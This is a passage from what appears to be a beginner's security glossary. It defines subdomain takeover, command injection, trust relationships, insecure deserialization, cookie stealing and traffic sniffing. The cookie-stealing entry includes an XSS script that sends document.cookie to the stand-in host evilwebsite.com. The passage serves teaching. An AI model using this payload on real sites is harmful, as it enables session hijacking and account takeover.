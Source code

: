 Instead of a company, it might just be a cloud resource. Like maybe your site is subdomain.example.com and you have a server in the cloud at server1235.cloudcompany.com. Then you stop using that cloud server, but your subdomain still points to that domain anyway, and then someone else spins up a server on that cloud provider.

When a cloud provider offers virtual machine instances on their platform, such as server1235.cloudcompany.com or server12374.cloudcompany.com, they are called instances. When someone used to have server1235.cloudcompany.com, but then stopped using it, it’s referred to as an unclaimed instance. Some other customer could then claim it if they felt like it.

**OS command injection** – a security vulnerability wherein a user can execute commands on the server’s operating system. SQL injection is injecting SQL into a query (or possibly doing a multi-query injection), but command injection is for OS commands, such as shell commands. OS command injection is possible in situations where a web app uses user input and passes it to a shell program, such as CGI. 

Shells are a big deal in hacking, so you should get really comfortable using Bash, as it’s a very commonly used shell.

**Trust relationships** – if Server B blindly trusts stuff from Server A, then if Server A gets hacked, Server B can get hacked too. One example of this would be data from an API. If you don’t do something like schema validation with an API response, then a hacked API could give a malicious response that would do something bad (such as code execution) with your program that uses the API data.

**Insecure deserialization** – here’s a refresher on serialization and deserialization: serialization is taking an object and turning it into a byte stream. Deserialization is taking a byte stream and turning it into an object. In the case of web development, user input could be in an object, saved by being serialized, and then loaded by being deserialized. If unvalidated user input gets deserialized, this can enable an attacker to do malicious things. You can think of insecure deserialization as unvalidated/unescaped/unsanitized deserialization. MITRE officially refers to this category of security vulnerabilities as “deserialization of untrusted data.” Some uses of insecure deserialization include remote code execution, session hijacking, and denial of service.

Attackers can use edited cookies, JSON objects with immediately-invoked function expressions, and more in order to attack a server that uses code that deserializes untrusted data. Insecure deserialization comes down to a fundamental problem in software: user input cannot be trusted. 

**Naïve serialization/deserialization** – a simple but insecure way of achieving serialization/deserialization which should only be done on trusted data, not user input.

**Cookie stealing** – if a website has an XSS vulnerability, an attacker can use JavaScript to steal another user’s cookie, like a login cookie. The JavaScript will get a cookie and send it elsewhere. For example, using an img tag, like so:

```
<script>document.writeln('<img src="evilwebsite.com/cookie.png?cookie=" + document.cookie + "</img>");</script>
```

What’s happening in the above code is that the <script> tag can be used because of an XSS vulnerability, and then document.writeln() will run whenever someone browses the page, and the results will be different for each user. In this case, document.writeln() will add an <img> tag to the page in order to show an image. But an attacker could even use a transparent 1x1 pixel PNG so that you don’t even see the image. ?cookie means you are sending a query string to evilwebsite.com, rather than just getting an image. document.cookie is the cookie. 

All an attacker would have to do is look through their server logs and see requests for evilwebsite.com/cookie.png and look at the query string in order to steal the login cookies, which they can then use to log in to other people’s accounts.

**Traffic sniffing** – looking at network traffic that is intended for someone else. A sniffer captures packets. A packet capture is when someone looks at someone else’s network traffic and saves it on their computer so that they can review it later. Packet captures, or pcaps, can be useful for both good and bad things.
